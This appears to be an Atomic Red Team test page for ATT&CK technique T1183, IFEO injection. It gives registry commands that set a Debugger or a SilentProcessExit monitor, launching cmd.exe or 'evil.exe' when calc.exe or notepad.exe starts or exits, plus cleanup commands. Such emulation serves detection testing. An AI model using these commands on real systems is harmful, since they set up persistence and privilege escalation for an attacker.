 # T1183 - Image File Execution Options Injection

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)

<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017)
IFEOs are represented as <code>Debugger</code> values in the Registry under <code>
HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code>
where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar
2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is
prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV
2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags
and/or by directly modifying IEFO and silent process exit Registry values in <code>
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent
Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v
  GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t
  REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "
  C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain
persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate
processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide
Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable
various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June
2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)

<br/>

## Atomic Test #1 - IFEO Add Debugger

Leverage Global Flags Settings

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;calc.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:

```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags

Leverage Global Flags Settings

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```

<br/>
